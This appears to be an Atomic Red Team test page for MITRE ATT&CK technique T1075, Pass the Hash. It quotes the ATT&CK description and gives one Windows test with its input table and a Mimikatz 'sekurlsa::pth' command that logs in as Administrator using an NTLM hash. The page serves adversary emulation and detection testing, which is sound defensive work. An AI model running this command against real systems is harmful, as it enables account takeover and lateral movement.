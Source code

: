 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Run it with `command_prompt`!
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
<br/>
